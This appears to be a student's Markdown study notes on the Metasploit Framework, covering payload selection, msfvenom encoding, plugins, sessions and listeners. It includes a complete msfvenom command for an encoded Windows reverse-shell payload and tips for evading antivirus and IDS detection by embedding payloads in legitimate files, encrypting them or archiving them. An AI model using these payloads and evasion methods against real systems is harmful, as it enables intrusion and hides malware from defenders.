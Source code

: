 # Metasploit Framework

We know the basics of msfconsole so I will just be going over the new concepts.

## Payloads

Once we select a module we can alos select a paylod. Msf will be default use the best one but you can chnage with set payload \<no>. Show payloads

## Encoding

Msfvenom can encode a payloads.

```
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f perl -e x86/shikata_ga_nai
```

-a = Archecture to use

-f  = Format

-e = Encoder to use

-i = Iterations to encode

Can also encode within msfconsole

MSF - VirusTotal can be used to check if a payload will be recognised as a virus

## Database

Msfconsole can be used to store hosts, passwords, services in a databse. No writing this up as I have my own note taking methods and this db will be largely redundant for me.

## Plugins

Can use third party plugins in msf. load \<plugin>

[Here](https://github.com/darkoperator/Metasploit-Plugins) are some user ones a good one is pentest. Take a look and get familar with some of the more popular ones.

## Session

Can have multiple sessions at once and you can attach a payload to a session. For example if you have used a webexploit to gain shell access you can then attach a priv esc payload to that shell. Neat!

Use the set session \<no> command

## Adding modules

Add modules from serachsploit to /usr/share/metasploit-framework/modules/exploits

And use reload\_all to refresh cache

## Shells

Msf can create nc listeners for shells. Use multi/handler

Once connected can use local exploit suggester module for recon. Have to set session of course.

## Evasion techniques

Msfconsole can use AES encryption to bypass IDS/IPS

msfvenom -k -x flag can be used to inject the payload into a legitimate file and if we encode on top of that it becomes much harder to fingerprint.

Can also archive payloads as rars with a password to bypasss detection but this will be flagged and potentially manually checked by an admin.
